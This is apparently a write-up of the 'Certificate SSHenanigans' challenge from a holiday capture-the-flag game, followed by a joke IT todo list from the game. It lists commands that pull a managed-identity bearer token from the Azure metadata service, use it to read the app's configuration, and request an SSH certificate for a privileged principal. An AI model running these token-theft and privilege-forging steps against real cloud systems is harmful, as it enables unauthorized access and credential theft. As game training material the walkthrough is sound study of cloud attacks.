


## Objective "Certificate SSHenanigans"

### Location 

Pixel Island: Rainruster Cliff's (climb up the ladders till the top and talk to the Elf)

### Task and Solution

- You need to create a signature of your public ssh-key from the Elf's Website
  at https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl

- then save the website's JSON response as your local file "elf_signed_cert.pub"

- Now you must specify both files (your private ssh-key and the signed cert) to be able to logon
onto the linux vm

$ ssh -i elf_signed_cert.pub -i ~/.ssh/id_rsa monitor@ssh-server-vm.santaworkshopgeeseislands.org 

query the Metadata  to get the subscription and resource-group 
from docu: https://learn.microsoft.com/en-us/azure/virtual-machines/instance-metadata-service?tabs=linux

monitor@ssh-server-vm:~$ curl -s -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/instance?api-version=2021-02-01" | jq | grep subscriptions
    "resourceId": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Compute/virtualMachines/ssh-server-vm",

extract the bearer token from the metadata service
from docu: https://www.netspi.com/blog/technical/cloud-penetration-testing/gathering-bearer-tokens-azure/

monitor@ssh-server-vm:~$ curl -s -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" | jq

monitor@ssh-server-vm:~$ curl -X GET -H "Authorization: Bearer $BEARER" -H "Content-Type: application/json" https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web?api-version=2022-03-01 | jq .

$ curl -X POST "https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl&principal=alabaster" --data '{ "ssh_pub_key":"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCwKzNDrYbmS3v40Xdj8t3/cLuySFxMh1hvo1qy12sVt9atg7sJQZDvpaEQdDZVrPYreNqVrZeudkTOSdAsmWM1hwn2keWdSwB4z6ZJ3H9cv6sbpvBEQA+xmmKHGZ0CwM967z9CN7B2PRQGohYCffF2W1lWmNbKJqlThelR4IOyBj8mA2b7p8sqH18HTRANrNSr2/kShkHNV6fqecui5arfKyZ2BcH28ibpgxgMa1knKXfGfgXq9o6PQR7XFjp1A1wx0RdhrUy2F6OJl0gq853fWdSzDwkHuX56pxf82hk9f5ktSlwCLQqDm9JGtMdNXGL9YavGdeYxlxl3edJyYqU0Qr9iQf/m1wx36YeNTCKJVjTTODvB+6fVeTjKt7UKvqTSg/MJNOv8mADnm1FTg6BgXcJuxzehl41tVkYUC2BfDpeQkBK6LTaMPhB4NfYgRSxgYASzjY8ZtR9ifuSAPgCCWmYITV8jiWZ1px3lzrPSIj2o7c3UqzcKKK1bU7k0JZs= oliver", "principal":"admin" }'

# Geese Islands IT & Security Todo List

- [X] Sleigh GPS Upgrade: Integrate the new "Island Hopper" module into Santa's sleigh GPS. Ensure Rudolph's red nose doesn't interfere with the signal.
- [X] Reindeer Wi-Fi Antlers: Test out the new Wi-Fi boosting antler extensions on Dasher and Dancer. Perfect for those beach-side internet browsing sessions.
- [ ] Palm Tree Server Cooling: Make use of the island's natural shade. Relocate servers under palm trees for optimal cooling. Remember to watch out for falling coconuts!
- [ ] Eggnog Firewall: Upgrade the North Pole's firewall to the new EggnogOS version. Ensure it blocks any Grinch-related cyber threats effectively.
- [ ] Gingerbread Cookie Cache: Implement a gingerbread cookie caching mechanism to speed up data retrieval times. Don't let Santa eat the cache!
- [ ] Toy Workshop VPN: Establish a secure VPN tunnel back to the main toy workshop so the elves can securely access to the toy blueprints.
- [ ] Festive 2FA: Roll out the new two-factor authentication system where the second factor is singing a Christmas carol. Jingle Bells is said to be the most secure.

